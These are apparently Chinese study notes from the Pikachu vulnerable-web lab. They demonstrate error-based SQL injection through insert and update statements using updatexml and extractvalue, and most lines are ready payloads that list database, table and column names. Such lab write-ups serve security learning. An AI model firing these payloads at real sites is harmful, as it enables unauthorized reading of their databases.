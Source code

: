 `vince')+union+select+1,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'message'%23`



## insert/update注入

update语句

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220615221158-ris7m3i.png)

insert语句

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220615221305-28h70pk.png)

updatexml函数

第一个参数:XML_document是String格式，为XML文档对象的名称，文中为Doc  
第二个参数:XPath_string (Xpath格式的字符串)，如果不了解Xpath语法，可以在网上查找教程。第三个参数:new_value，String格式，替换查找到的符合条件的数据


username=`1'+and+updatexml(1,concat(0x7e,(select+database()),0x7e),1)+and+'`

这种insert注入个人理解如果你在前几个字段插入注入语句是不能通过#、--+等一系列闭合，这样会破坏后面的语句

除非你将注入语句放到最后一个字段，再用 **)** 将其闭合形成完整语句

`username=a&password=a&sex=a&phonenum=a&email=a&add=1'+and+updatexml(1,concat(0x7e,(select+database()),0x7e),1))%23&submit=submit`

猜表

`username=1'+and+updatexml(1,concat(0x7e,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),0x7e),1)+and+'&password=a&sex=a&phonenum=a&email=a&add=1&submit=submit`

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220616110635-4fs4xj5.png)

`1'+and+updatexml(1,concat(0x7e,(select+group_concat(column_name)+from+information_schema.columns+where+table_name%3d'user'),0x7e),1)+and+'&password=a&sex=a&phonenum=a&email=a&add=1&submit=submit` 

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220616110952-64ij0fe.png)

可以看到使用updatexml显示结果长度有限,使用limit控制条数

`username=1'+and+updatexml(1,concat(0x7e,(select+column_name+from+information_schema.columns+where+table_name%3d'users'+limit+0,1),0x7e),1)+and+'&password=a&sex=a&phonenum=a&email=a&add=1&submit=submit`


extractvalue函数  
extractvalue函数:对XML文档进行查询的函数其实就是相当于我们熟悉的HTML文件中用<div><p><a>标签查找元素一样语法: extractvalue(目标xml文档,xml路径)第二个参数xml中的位置是可操作的地方，xml文档中查找字符位置是用/xx/xxx/xoox ...这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容

username=1'+and+extractvalue(1,concat(0x7e,(select+database()),0x7e))+and+'&password=a&sex=a&phonenum=a&email=a&add=1&submit=submit

```sql
username=1'+and+extractvalue(1,concat(0x7e,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),0x7e))+and+'&password=a&sex=a&phonenum=a&email=a&add=1&submit=submit
```
